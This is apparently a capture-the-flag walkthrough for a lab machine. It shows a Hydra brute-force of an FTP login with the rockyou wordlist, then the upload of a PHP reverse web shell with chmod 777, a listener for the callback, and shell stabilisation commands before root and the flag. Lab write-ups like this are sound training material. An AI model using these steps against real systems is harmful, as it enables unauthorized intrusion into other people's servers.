 # Hack Your way back Walkthrough

```bash
hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.105.103
```

\
Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.\
&#x20;

<figure><img src="https://camo.githubusercontent.com/e79342d2eabba45c0ff616dec2bb9d94f81fa8feac449bad4e878cebb4f92435/68747470733a2f2f692e696d6775722e636f6d2f594977705a65392e706e67" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="https://camo.githubusercontent.com/5d29c859803b9ef114186c95c8eaec5e4750307cd4fa2dbeadc8b5aaf7ae23de/68747470733a2f2f692e696d6775722e636f6d2f785666547149752e706e67" alt=""><figcaption></figcaption></figure>

Change the necessary values inside the web shell and upload it to the webserver

```bash
#Get the shell from the ftp to your machine
get shell.php
#delete the shell
delete shell.php
#upload the shell with the right values
put shell.php
#Change permissions
chmod 777 shell.php
#visit the website

```

<figure><img src="https://camo.githubusercontent.com/1174eb79230248d0f6fbc11d818af80409e0495f77d811ac017eba09ab6c0b01/68747470733a2f2f692e696d6775722e636f6d2f7a5259537875362e706e67" alt=""><figcaption></figcaption></figure>

<figure><img src="https://camo.githubusercontent.com/414795d4a4550371d1f81d2d85312778d98f5f6e7e11adc6b6db55e1890dd482/68747470733a2f2f692e696d6775722e636f6d2f516243664e46552e706e67" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="https://camo.githubusercontent.com/770e5c65895c5eda4ce1bd61b59fcbfe26b7de9452dc5ac1fdb095d2cc790352/68747470733a2f2f692e696d6775722e636f6d2f496e687964336f2e706e67" alt=""><figcaption></figcaption></figure>

Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.\


&#x20;

<figure><img src="https://camo.githubusercontent.com/2e66da0541a56c83fd810d68c11defa5e754dbf68b8a17866ceec19d41b8fc69/68747470733a2f2f692e696d6775722e636f6d2f78337a6f6f65772e706e67" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="https://camo.githubusercontent.com/1bb19356dd2da85fe7801de81efd43fcc1c89ae1272118b4002d7c6038d7fe3e/68747470733a2f2f692e696d6775722e636f6d2f4968656d3256382e706e67" alt=""><figcaption></figcaption></figure>

```bash
#Shell stabilisation 
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

Become root!\
&#x20;

<figure><img src="https://camo.githubusercontent.com/231a7d06cc65281fb1b2a718e7bc93e530e25f2e4e132414036f96932e690df2/68747470733a2f2f692e696d6775722e636f6d2f7951336c5335752e706e67" alt=""><figcaption></figcaption></figure>

Read the flag.txt file inside the Reptile directory

